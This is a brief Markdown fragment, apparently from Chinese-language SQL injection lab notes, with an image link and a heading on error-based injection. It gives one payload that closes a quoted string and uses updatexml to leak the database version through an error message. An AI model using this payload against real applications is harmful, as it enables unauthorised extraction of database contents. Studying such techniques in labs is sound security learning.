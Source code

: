 ![image-20240318215401701](../图片/image-20240318215401701.png)

#### 报错注入，源代码有冒号,使用and' 闭合

```
' and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1) and '
```


